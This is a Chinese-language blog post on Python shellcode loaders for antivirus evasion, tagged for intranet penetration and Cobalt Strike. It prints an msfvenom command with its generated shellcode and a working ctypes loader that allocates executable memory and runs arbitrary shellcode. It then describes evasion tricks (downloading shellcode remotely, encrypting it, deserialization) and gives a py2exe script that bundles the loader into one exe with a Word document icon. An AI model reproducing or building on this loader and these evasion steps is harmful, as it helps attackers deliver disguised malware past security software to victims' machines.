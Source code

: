 ```yaml
---
title: python shellcode加载器简述
layout: post
post-image: /assets/images/beijita.jpg
description: 免杀是一个长期而艰巨的工程
tags:
- 内网渗透
- Coblat Strike
- 免杀
---
```


# python shellcode加载器简述

​                                                                                                                       ——Little Tea     
# python shellcode加载器

## 什么是ShellCode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机械码，让电脑可以执行攻击者的任意指令。

简单说，shellcode即为一段用于计算机执行命令的指令代码。

如使用msf生成一段调用机器计算器的指令

`msfvenom -p windows/x64/exec CMD=calc.exe -f python`

shellcode如下

```
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"
buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"
buf += b"\x78\x65\x00"
```

## 什么是shellcode加载器

shellcode加载器可理解为专门用于加载计算机指令代码（shellcode）的一段程序或工具

## 常用的python shellcode加载器

```
#!/usr/bin/python3
import ctypes

#shellcode 放这个位置
c = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31"

shellcode = bytearray(c)

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

## 免杀方法

1.分离免杀：将shellcode放到公网，通过下载方式加载shellcode，或同时放到本地，执行shellcode加载器时可以同时加载shellcode。

2.shellcode加密：实验比较发现，python加载器将shellcode做一下简单加密解密处理后，可过部分杀软

3.反序列化：可将shellcode加载器的代码做序列化处理后，反序列化加载，实验发现可过大部分杀软。

## python可执行文件打包

pyinstaller

这个打包方式在个别的杀软会默认报毒，哪怕只是打包一个简单的输出语句

![image-20210926101728145](/assets/images/20210926/image-20210926101728145.png)

py2exe

可尝试使用这个打包方式，但是也有一个通病就是python的打包文件都比较大，大概在5m左右，不过，可以实现免杀效果好的话也是可以接受的。

打包代码如下：

```
# setup.py 用于py2exe打包
from distutils.core import setup
import py2exe
setup(
    options={
        'py2exe': {
            'optimize': 2, # 优化级别最高，
            'bundle_files': 1, # 将生成的调用文件打包进exe文件
            'compressed': 1, # 压缩
        },
    },
    windows=[{"script": "pyload.py", #需要打包的程序的文件路径，windows->GUI exe的脚本列表,console-> 控制台exe的脚本列表
              "icon_resources": [(1, "word.ico")]}], # 程序的图标的图片路径
    zipfile=None, # 不生成library.zip文件，则捆绑在可执行文件中
)
```

本文只是写一下python免杀的大致思路，病毒与反病毒是一个长期课程，更多的方法和思路要根据当前的网络环境和防护方式来实现。

注：本文参考小维师傅文章编写
